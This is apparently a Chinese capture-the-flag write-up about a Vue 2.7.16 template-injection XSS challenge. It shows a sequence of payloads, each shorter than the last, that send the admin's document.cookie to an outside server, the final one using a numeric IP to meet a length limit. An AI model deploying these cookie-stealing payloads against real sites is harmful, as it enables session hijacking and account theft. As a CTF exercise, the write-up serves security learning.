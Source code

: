 分析到这里大概能想到是通过xss拿到admin的cookie来获取flag了

## 信息搜集

在各个`/tmplates/*.html`中都能看到引入了`vue@2.7.16`包

```html
<script src="https://cdn.jsdelivr.net/npm/vue@2.7.16"></script>
```
因为题目也暗示了和vue有关，直接google搜`vue xss`，可以看到下面列了一些payload，拿来试试

::github{repo="ViktorMares/vue-js-xss-payload-list"}

## PoC

随便注册一个`profile`值为`{{constructor.constructor('alert(1)')()}}`的用户看看，发现可行

![poc](./poc.png)

换上xss盗取cookie的payload，长度为98，还需要再短一点

```js
{{constructor.constructor('var i=new Image();i.src="http://xxx.xxx.xxx.xxx/"+document.cookie')()}}
```

于是换成这个，长度为89

```js
{{_c.constructor('var i=new Image();i.src="http://xxx.xxx.xxx.xxx/"+document.cookie')()}}
```

尝试再短一点，长度为83，这里如果运气好一点vps的ip比较短的话就可以了，但是我们不靠运气

```js
{{_c.constructor('(new Image()).src="http://xxx.xxx.xxx.xxx/"+document.cookie')()}}
```

通过[把点分十进制ip转换成纯数字的ip](https://www.metools.info/other/ipconvert162.html)，这里我试了255.255.255.255(这个都行理论上没什么ip不行了)最后结果是4294967295，长度78，最后的payload如下

```js
{{_c.constructor('(new Image()).src="http://4294967295/"+document.cookie')()}}
```
